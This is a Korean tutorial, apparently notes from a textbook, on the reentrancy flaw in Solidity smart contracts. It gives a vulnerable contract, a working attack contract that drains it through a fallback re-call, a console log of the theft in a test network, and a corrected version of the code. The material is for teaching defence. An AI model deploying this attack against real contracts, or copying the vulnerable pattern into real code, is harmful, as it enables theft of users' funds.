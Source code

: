 # 스마트 계약의 취약점과 공격 원리
> 이번 장에서는 스마트 계약에서 발생할 수 있는 대표적인 취약점을 설명하고, 예제와 함께 취약점의 구조 및 공격 원리, 또 이에 대한 대응책을 알아본다.

### 11.1 재진입성 문제
> 재진입성이란 함수가 여러 곳에서 동시에 호출되어도 문제가 발생하지 않는 함수의 성질을 말한다. 
> 재진입성을 만족하지 않는 함수를 편의상 재진입성 문제라고 부른다.

* 잔액 전액 인출 과정
  * 잔액 확인
  * 잔액 전액 인출 (호출한 쪽으로 송금됨)
  * 잔액을 0으로 설정
  
> 2번 과정에서 재진입성 문제가 발생할 가능성이 있다.
> 2번에서 송금을 받을 대상이 계약(Contract)인 경우, 대상 계약이 Fallback 함수를 악용하면 이 송금을 트리거 삼아 다시 호출(재귀) 하여 잔액을 확인하기 전에 모두 재차 송금 가능

> 206p 그림 11-1 을 참조하라.

### 공격 대상 계약
> VictimBalance.sol

```c
pragma solidity ^0.4.11;
contract  VictimBalance {
	// 어드레스 별로 잔고를 관리
	mapping (address => uint) public userBalances;

	// 메시지를 출력하기 위한 이벤트
	event MessageLog(string);
	
	// 잔고를 출력하기 위한 이벤트
	event BalanceLog(uint);

	/// 생성자
	constructor() public{
	}

	/// 송금받을 때 호출되는 함수
	function addToBalance() public payable {
		userBalances[msg.sender] += msg.value;
	}

	/// 이더를 인출할 때 호출되는 함수
	function withdrawBalance() public payable returns(bool) {
		emit MessageLog("withdrawBalance started.");
		emit BalanceLog(address(this).balance);
		
		// 1 잔고를 확인
		if(userBalances[msg.sender] == 0) {
			emit MessageLog("No Balance.");
			return false;
		}
		
		// 2 자신을 호출한 어드레스로 이더 반환
		if (!(msg.sender.call.value(userBalances[msg.sender])())) { revert(); }
		
		// 3 잔고 업데이트
		userBalances[msg.sender] = 0;
		
		emit MessageLog("withdrawBalance finished.");
		
		return true;
	}
}
```

### 공격 계약
> EvilReceiver.sol

```
pragma solidity ^0.4.11;
contract  EvilReceiver {
	
	// 공격 대상 컨트랙트의 어드레스
	address public target;

	// 메시지 출력용 이벤트
	event MessageLog(string);
	
	// 잔고 확인용 이벤트
	event BalanceLog(uint);

	/// 생성자
	constructor(address _target) public{
		target = _target;
	}
	
	/// Fallback 함수
	function() payable public{
		emit BalanceLog(address(this).balance);
		
		// VictimBalance의 withdrawBalance를 호출
		if(!msg.sender.call.value(0)(bytes4(keccak256("withdrawBalance()")))) {
			emit MessageLog("FAIL");
		} else {
			emit MessageLog("SUCCESS");
		} 
	}

	/// EOA로부터 송금받을때 사용하는 함수
	function addBalance() public payable {
	}

	/// 공격대상으로 송금할때 사용하는 함수
	function sendEthToTarget() public {
		if(!target.call.value(1 ether)(bytes4(keccak256("addToBalance()")))) {revert();} 
	}

	/// 공격대상에서 인출할때 사용하는 함수
	function withdraw() public {
		if(!target.call.value(0)(bytes4(keccak256("withdrawBalance()")))) {revert();} 
	}
}
```

### 전체 흐름
> 212p 그림 11-2 참조

* 각 어드레스의 역할
  * eth.accounts[0] : VictimBalance의 소유자이며, 계약을 생성한 계정
  * eth.accounts[1] : VictimBalance에 송금했던 정상 사용자의 계정
  * eth.accounts[2] : VictimBalance를 공격하는 계정. EvilReceiver의 소유자이며, 계약을 생성한 계정
  
* Script
  * VictimBalance 생성하기 : vb
  * EvilReceiver 생성하기 : er
  
  
```
정상적인 사용자가 VictimBalance에 송금 : eth.accounts[1] -> vb 송금
> vb.addToBalance.sendTransaction({from:eth.accounts[1], value:web3.toWei(2,"ether"), gas:5000000})
"0x186b9a9eb823c2baabca87bf70ab1c2029781faa5147ef00a1e030bbc18ef96b"

vb의 잔액은 2ETH 가 됨
> web3.fromWei(eth.getBalance(vb.address), "ether")
2

vb의 userBalances에서도 eth.accounts[1] 계정의 잔액이 2ETH 임을 알 수 있음
> web3.fromWei(vb.userBalances(eth.accounts[1]), "ether")
2

공격자가 er에 송금
> er.addBalance.sendTransaction({from:eth.accounts[2], value:web3.toWei(1,"ether"), gas: 5000000})
"0x007f2fec42a24d17c0f78746346b20201ba2481c91c25a6575942400ea7a42f2"

er의 잔액 1ETH 확인
> web3.fromWei(eth.getBalance(er.address), "ether")
1

EvilReceiver 를 거쳐 VictimBalance로 송금
> er.sendEthToTarget.sendTransaction({from:eth.accounts[2], gas:500000})
"0x21bb78f7cf2cc5063502bbdbcec6f93e3de96463f789c6f205786b689ae40d47"

er의 잔액 확인
> web3.fromWei(eth.getBalance(er.address), "ether")
0

vb의 userBalance에 기재된 er의 잔액 확인
> web3.fromWei(vb.userBalances(er.address), "ether")
1

vb의 잔액도 1eth 증가하여 3eth 가됨을 확인
> web3.fromWei(eth.getBalance(vb.address), "ether")
3

공격자가 EvilReceiver 를 통해 VictimBalance의 이더를 인출
> er.withdraw.sendTransaction({from:eth.accounts[2], gas:5000000})
"0x407dee7bac74598ec82032b94bf00900728ff9afdfcceb21e4dd7ab664011de5"

그런데, 1eth만 반환되고 vb에 2eth가 남아야 하는데...!!
남은 잔액이 0eth 이네?

> web3.fromWei(eth.getBalance(vb.address),"ether")
0

er의 잔액은 예상대로 0일 것이고.. (원래 가진게 1eth 였으므로)
> web3.fromWei(vb.userBalances(er.address), "ether")
0

어라? userBalances를 보면 eth.accounts[1]의 잔액이 2eth 인데 vb의 잔액에는 이미 없기 때문에 이를 반환해줄 수 없다.
그럼 eth.accountsp1[계정 몫의 2eh 는 어떻게 된것?
> web3.fromWei(vb.userBalances(eth.accounts[1]), "ether")
2

여기로 갔네...
> web3.fromWei(eth.getBalance(er.address), "ether")
3
```

### 코드 수정하기
> withdrawBalance 함수 수정하기
> 잔액 업데이트를 먼저 한 다음 자신을 호출한 쪽으로 이더를 반환 하도록 순서를 바꿈
> 전액을 업데이트하기 전에 반환할 금액을 amount 변수에 미리 빼놓기

```c
/// 이더를 인출할 때 호출되는 함수
	function withdrawBalance() public payable returns(bool) {
		emit MessageLog("withdrawBalance started.");
		emit BalanceLog(address(this).balance);
		
		// 1 잔고를 확인
		if(userBalances[msg.sender] == 0) {
			emit MessageLog("No Balance.");
			return false;
		}

		// 2 잔고를 업데이트 하기 전에 송금할 금액 계산
		uint amount = userBalances[msg.sender];				

		// 3 잔고 업데이트
		userBalances[msg.sender] = 0;
		
		// 4 자신을 호출한 어드레스로 이더 반환
		if (!(msg.sender.call.value(amount)())) { revert(); }
		
		emit MessageLog("withdrawBalance finished.");
		
		return true;
	}
```

